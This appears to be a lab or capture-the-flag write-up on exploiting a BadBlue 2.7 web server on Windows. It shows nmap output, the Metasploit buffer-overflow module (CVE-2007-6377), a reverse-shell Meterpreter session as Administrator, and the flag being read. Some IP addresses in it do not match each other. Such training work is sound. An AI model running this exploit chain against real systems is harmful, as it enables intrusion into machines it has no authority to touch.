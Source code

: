 # Windows: File and Keylogging

## Mission

Metasploit is one of the most popular pentesting tools. With features such as migrating into other processes, keylogging, etc it makes windows exploitation particularly easy. 

In this lab exercise, you are provided with GUI access to the attacker machine and the windows target machine. This allows you to experience the perspective of both the attacker and the victim at the same time. 

Your task is to exploit the application using an appropriate Metasploit module and complete the below-mentioned objectives. 

###  Objective 

Retrieve the flag. 
Create a file on the desktop which contains the text "You have been Hacked"
From the Metasploit session, open the file in notepad on the target machine.
Use the keylogger to log the commands typed on the victim machine. 

### Instructions

Your Kali machine has an interface with IP address 10.10.X.Y. Run “ip addr” to know the values of X and Y.
The IP address of the target machine is mentioned in the file “/root/Desktop/target”
Do not attack the gateway located at IP address 192.V.W.1 and 10.10.X.1

## Notes

- **Target IP Address:** 10.4.25.43
- **eth1:** 10.10.0.5
- **eth0:** 10.1.1.5

## nmap (sudo nmap -vv -T4 -sC -sV 10.4.25.43)

root@attackdefense:~# sudo nmap -vv -T4 -sC -sV 10.4.25.43

Discovered open port 445/tcp on 10.4.25.43
Discovered open port 3389/tcp on 10.4.25.43
Discovered open port 139/tcp on 10.4.25.43
Discovered open port 80/tcp on 10.4.25.43
Discovered open port 135/tcp on 10.4.25.43
Discovered open port 49153/tcp on 10.4.25.43
Discovered open port 49152/tcp on 10.4.25.43
Discovered open port 49155/tcp on 10.4.25.43
Discovered open port 49163/tcp on 10.4.25.43
Discovered open port 49154/tcp on 10.4.25.43

PORT      STATE SERVICE            REASON          VERSION
80/tcp    open  http               syn-ack ttl 125 BadBlue httpd 2.7
| http-methods: 
|_  Supported Methods: HEAD
135/tcp   open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack ttl 125 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack ttl 125 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 125
| ssl-cert: Subject: commonName=WIN-OMCNBKR66MN
| Issuer: commonName=WIN-OMCNBKR66MN
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-04-04T02:28:05
| Not valid after:  2022-10-04T02:28:05
| MD5:   c858 07b1 79e9 0841 fbd1 dbd5 8262 1523
| SHA-1: c7c0 939f 7fe9 cea5 e551 cf79 583f 1cd0 c42b 4058
| -----BEGIN CERTIFICATE-----
| MIIC4jCCAcqgAwIBAgIQOpmAovBY1IVMy6/cGIEBBjANBgkqhkiG9w0BAQsFADAa
| MRgwFgYDVQQDEw9XSU4tT01DTkJLUjY2TU4wHhcNMjIwNDA0MDIyODA1WhcNMjIx
| MDA0MDIyODA1WjAaMRgwFgYDVQQDEw9XSU4tT01DTkJLUjY2TU4wggEiMA0GCSqG
| SIb3DQEBAQUAA4IBDwAwggEKAoIBAQDIjjxFZHu9dPAqaETsTehjezc/p5IgG6gZ
| oqSPvQgSG73LzRNiuOv8jsvNk0w8h1+SDhED5TfaqO9dnGQIVNLeYSM4kNZXmf6c
| H7ymKXoTekldJE7il84PRqRPVqC9EHAYVQhqldEaLR8lA8eFPNjEdk0g1z18esWB
| sLHFEiDFo3tZ1roPxgb11H5WZwHLNmAnYYamtSSJcQuvgPBaJDiKtS1HTiWAKwkY
| DPUOJaIt6zbLPl1abeuKBXaxfvTAWHORaVxvTUMJ3ZvYMySQvdwxO2aBLGMoCEDS
| 3KPDjm1K56nhiGCJzubwXv0Rlbg4O7IonUdi7goocSC2njB3WRSVAgMBAAGjJDAi
| MBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsF
| AAOCAQEAaNUwB01WK2B1msmM6aefTNKJJhnWAkgtDsS9fPun3YgjjSDNnLadwhNp
| tC6r9jjcKXxYLRBq//+emhnUyJU7VWxBs8Qek1//Y93qDRZ87XEq7syvQ+4+YmY3
| 7vRNaTduxjgCHsu+BHbOlVunBWMuZMaUxwjZT5Rbr1+Dddl2rYo5uPuUT+cJYO5o
| APJDUdSVbkdac1LK1wcNaGza6z66uxsZnChfKS00x9ZGJmrQpfcFcjtXwqh5+fxC
| FrcZa3ROay+1NCUx7l115LmfFTGYQfEpZINFCA+xhE1jgsa/bIe9sx10nVUMPv8C
| NpMynCDXnf81HYws8hZ/xb3Dwm1d+g==
|_-----END CERTIFICATE-----
49152/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
49153/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
49154/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
49155/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
49163/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 0s, deviation: 0s, median: -1s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 57942/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 38907/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 49156/udp): CLEAN (Timeout)
|   Check 4 (port 44728/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-04-05 08:05:43
|_  start_date: 2022-04-05 07:57:59


## MSFCONSOLE windows/http/badblue_passthru

    msf5 exploit(windows/http/badblue_passthru) > info

        Name: BadBlue 2.72b PassThru Buffer Overflow
        Module: exploit/windows/http/badblue_passthru
    Platform: Windows
        Arch: 
    Privileged: Yes
        License: Metasploit Framework License (BSD)
        Rank: Great
    Disclosed: 2007-12-10

    Provided by:
    MC <mc@metasploit.com>

    Available targets:
    Id  Name
    --  ----
    0   BadBlue EE 2.7 Universal
    1   BadBlue 2.72b Universal

    Check supported:
    No

    Basic options:
    Name     Current Setting  Required  Description
    ----     ---------------  --------  -----------
    Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
    RHOSTS   10.4.19.179      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
    RPORT    80               yes       The target port (TCP)
    SSL      false            no        Negotiate SSL/TLS for outgoing connections
    VHOST                     no        HTTP server virtual host

    Payload information:
    Space: 750
    Avoid: 15 characters

    Description:
    This module exploits a stack buffer overflow in the PassThru 
    functionality in ext.dll in BadBlue 2.72b and earlier.

    References:
    https://cvedetails.com/cve/CVE-2007-6377/
    OSVDB (42416)
    http://www.securityfocus.com/bid/26803

## MSFCONSOLE Exploit

    msf5 exploit(windows/http/badblue_passthru) > exploit

    [*] Started reverse TCP handler on 10.4.25.43:4444 
    [*] Trying target BadBlue EE 2.7 Universal...
    [*] Sending stage (180291 bytes) to 10.4.19.179
    [*] Meterpreter session 1 opened (10.4.25.43:4444 -> 10.4.19.179:49240) at 2022-04-05 07:47:22 +0530

    meterpreter > getuid
    Server username: Server username: WIN-OMCNBKR66MN\Administrator

## Treasure

    meterpreter > cd /
    meterpreter > dir
    Listing: C:\
    ============

    Mode                 Size                Type  Last modified                    Name
    ----                 ----                ----  -------------                    ----
    40777/rwxrwxrwx      0                   dir   2020-08-12 09:43:47 +0530        $Recycle.Bin
    100666/rw-rw-rw-     1                   fil   2013-08-22 21:16:48 +0530        BOOTNXT
    40777/rwxrwxrwx      0                   dir   2013-08-22 20:18:41 +0530        Documents and Settings
    40777/rwxrwxrwx      0                   dir   2013-08-22 21:09:30 +0530        PerfLogs
    40555/r-xr-xr-x      4096                dir   2013-08-22 19:06:16 +0530        Program Files
    40777/rwxrwxrwx      4096                dir   2013-08-22 19:06:16 +0530        Program Files (x86)
    40777/rwxrwxrwx      4096                dir   2013-08-22 19:06:16 +0530        ProgramData
    40777/rwxrwxrwx      0                   dir   2020-09-05 09:16:25 +0530        System Volume Information
    40555/r-xr-xr-x      4096                dir   2013-08-22 19:06:16 +0530        Users
    40777/rwxrwxrwx      24576               dir   2013-08-22 19:06:16 +0530        Windows
    100444/r--r--r--     398356              fil   2013-08-22 21:16:48 +0530        bootmgr
    100666/rw-rw-rw-     32                  fil   2020-09-16 14:31:09 +0530        flag.txt
    402211620/rw--w----  300329934679736303  fif   9526081072-11-03 07:52:56 +0530  pagefile.sys

    meterpreter > cat flag.txt
    70a569da306697d64fc6c19afea37d94
    